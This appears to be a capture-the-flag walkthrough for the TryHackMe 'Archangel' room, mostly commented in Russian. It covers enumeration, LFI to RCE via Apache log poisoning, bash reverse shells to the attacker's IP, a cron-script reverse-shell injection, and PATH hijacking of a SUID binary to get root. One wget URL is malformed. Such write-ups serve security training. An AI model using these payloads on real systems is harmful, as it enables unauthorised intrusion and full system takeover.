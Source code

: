 https://tryhackme.com/room/archangel

> [!IP]
> 10.10.139.207

```
nmap -p- 10.10.139.207 -vv -T4
```

```
sudo nmap 10.10.139.207 -sC -sV -p22,80  
```

![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420014507.png)

```
echo "10.10.139.207    mafialive.thm" >> /etc/hosts 
```
### 1 Flag
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420015150.png)
### FFUF
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://10.10.139.207/FFUZ -ic -c
```

```
images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 72ms]
pages                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 86ms]
                        [Status: 200, Size: 19188, Words: 2646, Lines: 321, Duration: 1935ms]
flags                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 104ms]
layout                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 71ms]
                        [Status: 200, Size: 19188, Words: 2646, Lines: 321, Duration: 79ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 86ms]
```

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://mafialive.thm/ -H "Host:FUZZ.mafialive.thm"
```

![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420015842.png)
# LFI to RCE

![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420015917.png)
>Контроль это иллюзия)) Интересный параметр ?view=
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420020620.png)
php://filter/convert.base64-encode/resource=

```
echo "PD9waHAgZWNobyAnQ29udHJvbCBpcyBhbiBpbGx1c2lvbic7ID8+Cg==" |base64 -d
<?php echo 'Control is an illusion'; ?>
```
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420021626.png)
## Логика работы приложения
### 2 FLAG
```
<?php

            //FLAG: thm{############}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            if(isset($_GET["view"])){
            if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
                include $_GET['view'];
            }else{

                echo 'Sorry, Thats not allowed';
            }
        }
        ?>

```

Посмотрев исходник делаю вывод что ../.. фильтруется для path treversal.Буду использовать словарь и  начинать с конечной точки /var/www/html/development_testing
```
https://raw.githubusercontent.com/emadshanab/LFI-Payload-List/refs/heads/master/LFI%20payloads.txt
```

```
ffuf -w LFI\ payloads.txt:FFUZ -u http://mafialive.thm/test.php?view=/var/www/html/development_testing/FFUZ -ic -c -fs 286,310
```
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420022659.png)
```
archangel:x:1001:1001:Archangel,,,:/home/archangel:/bin/bash
root:x:0:0:root:/root:/bin/bash
```
Через error log:
```
https://www.linkedin.com/pulse/php-rce-through-log-poisoning-lucas-mendes-de-oliveira-8u68f
```

```
/var/log/apache2/error.log 
/var/log/apache2/acsess.log 
```

```
http://mafialive.thm/%3C%3fphp%20system('whoami');%20%3f%3E.php
```
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420024504.png)

Я пойду через access log
```
http://mafialive.thm/test.php?view=/var/www/html/development_testing//..//..//..//..//..////var/log/apache2/access.log
```
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420050356.png)
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420050335.png)
Revers shell
```
bash -c 'bash -i &>/dev/tcp/10.11.134.170/1337 <&1' 
```
Данную нагрузку нужно привести в URL code

```
nc -lnvp 1337
```
# 3 Flag
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420050914.png)
# LPE
### Linpeas

```
wget http://https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80
```

```
wget http://10.11.134.170/linpeas.sh && chmod +x linpeas.sh  && ./linpeas.sh 
```

```
*/1 *   * * *   archangel /opt/helloworld.sh
```
В записях cron интересный скрипт  

```
-rwxrwxrwx 1 archangel archangel 66 Nov 20  2020 /opt/helloworld.sh
www-data@ubuntu:/tmp$ echo "bash -c 'bash -i &>/dev/tcp/10.11.134.170/1338 <&1' " >> /opt/helloworld.sh
```

```
nc -lnvp 1338
```

## 4 Flag
```
 ls -la /home/archangel/secret.
```
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420052240.png)


```
strings /home/archangel/secret/backup
cp /home/user/archangel/myfiles/* /opt/backupfiles

```
Нашел SUID-бинарник backup, который вызывал cp без указания полного пути.
```
-rwsr-xr-x 1 root      root      16904 Nov 18  2020 backup
```
Проверяем PATH))
```
echo $PATH
/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```
Добавляем свой путь 
```
export PATH=/tmp:$PATH
```
Итого)
```
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

```
echo '#!/bin/bash' > /tmp/cp
echo "chmod u+s /bin/bash" >> /tmp/cp
chmod +x /tmp/cp
./backup
```
## 5 Flag

![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420052240.png)
